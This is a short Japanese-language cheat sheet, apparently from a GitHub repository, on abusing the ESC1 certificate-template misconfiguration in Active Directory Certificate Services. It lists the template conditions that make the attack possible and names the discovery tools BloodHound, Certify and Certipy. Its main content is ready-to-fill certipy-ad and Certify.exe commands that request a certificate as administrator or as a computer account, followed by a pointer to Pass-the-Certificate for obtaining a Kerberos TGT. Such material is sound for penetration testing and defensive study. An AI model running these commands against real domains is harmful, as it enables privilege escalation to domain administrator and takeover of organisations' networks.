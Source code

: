 # ESC1

ESC1 脆弱性のある証明書テンプレートを使用すると、権限の低いユーザーが、ユーザーが指定したDomain Objectに代わって証明書を登録および要求できるようになる。登録権限を持つすべてのユーザーが、ドメイン管理者などの権限のあるアカウントの証明書を要求できることになる。

## 前提条件 – ESC1 攻撃

ESC1攻撃を行うには、次の要件を満たす必要がある

- Client Authentication : `True`
- Enable : `True`
- Enrollee Supplies Subject : `True`
- Requires Manager Approval : `False`
- Enrollement Rights
  - `Domain Users`
  - `Authenticated Users`

`BloodHound` または `Certify`, `Certipy` のfindコマンドで構成を確認できる

## 証明書テンプレートを悪用して管理者に偽造

### Linux

ユーザーアカウントを指定

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p <PASSWORD> -dc-ip <DC_IP> -target <DC_DOMAIN> -ca <CA_NAME> -template <VULN_TEMPLATE> -upn administrator@<DOMAIN>
```

コンピューターアカウントを指定

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p <PASSWORD> -dc-ip <DC_IP> -target <DC_DOMAIN> -ca <CA_NAME> -template <VULN_TEMPLATE> -dns <DNS_DOMAIN>
```

### Windows

```
Certify.exe request /ca:<DOMAIN>\<CA_NAME> /template:<VULN_TEMPLATE> /altname:administrator
```

証明書を取得すると[Pass-the-Certificate攻撃](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Kerberos/Pass%20The%20Certificate.md)でTGTを取得し、認証することができる
